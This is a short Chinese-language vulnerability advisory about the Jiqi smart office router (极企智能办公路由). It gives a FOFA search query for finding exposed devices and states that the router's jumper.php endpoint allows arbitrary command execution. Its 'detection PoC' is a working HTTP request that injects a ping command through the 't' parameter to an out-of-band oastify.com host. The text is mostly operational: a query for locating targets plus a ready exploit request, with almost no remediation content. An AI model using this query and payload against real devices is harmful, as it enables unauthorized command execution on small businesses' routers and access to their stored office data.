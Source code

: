 **fofa**

```
title="极企智能办公路由"
```

**一、漏洞简述**

极企办公路由全新定义办公场景路由，服务于小微企业，除了强大WiFi 覆盖功能外，同时可以满足企业考勤管理的各项需求（wifi自动打卡、手机打卡、考勤统计、智能排班等）；同时内嵌一套完善的迷你办公系统，具有日常审批、通知公告、通讯录、企业文档内部云盘等多项功能；内置的8G储存容量，打造本地存储且部署在公司的防火墙内，可容纳单据、档案、客户信息等多种办公数据。此外还有顶级外网穿透技术和办公软件应用商店及入口，不断上新企业应用，丰富和完善企业的使用体验。其接口jumper.php存在任意命令执行漏洞，攻击者可通过该漏洞获取系统权限。

**二、漏洞检测poc**

```yaml
GET /notice/jumper.php?t=;ping%20-c%201%20999.xxykpjfgplr5pol5va17v24wange45su.oastify.com HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.0 Safari/537.36
Connection: close


```

